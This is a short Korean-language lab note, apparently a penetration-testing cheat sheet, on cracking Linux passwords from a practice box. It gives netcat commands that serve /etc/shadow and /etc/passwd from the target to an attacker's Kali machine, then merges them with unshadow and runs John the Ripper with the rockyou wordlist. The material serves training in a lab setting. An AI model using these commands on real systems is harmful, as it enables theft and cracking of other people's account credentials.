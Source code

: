 
**📦 /etc/shadow 비밀번호 크랙**
1. 타겟(실습 박스)에서 실행:
## shadow 파일 내보내기
$ `nc -lnvp 9999 < /etc/shadow`
## passwd 파일 내보내기
$ `nc -lnvp 9998 < /etc/passwd`

2. 공격자 박스(칼리)에서 실행:
## shadow 파일 받기
$ `sudo nc <타겟 IP> 9999 > ~/Downloads/shadow.txt`
## passwd 파일 받기
$ `sudo nc <타겟 IP> 9998 > ~/Downloads/passwd.txt`

3. shadow와 passwd 병합 및 크랙:
➡ John the Ripper 같은 크래킹 툴은 단순히 암호 해시만 있어서는 누구에 대한 해시인지 알 수 없음.
   즉, shadow.txt에는 사용자 이름은 있지만, UID나 홈 디렉토리 정보는 없음.
	✅ /etc/passwd 와 /etc/shadow 를 합쳐야 사용자 계정과 그에 해당하는 암호 해시 정보를 매핑할 수 있고,
	✅ John the Ripper는 이 매핑된 형식을 통해 어떤 계정의 암호를 크랙하는지 파악 가능함.
## unshadow 명령어로 두 파일을 병합
$ unshadow passwd.txt shadow.txt > combined.txt
## John the Ripper로 암호 크랙 시도
$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
$ john --wordlist=/usr/share/wordlists/rockyou.txt combined.txt


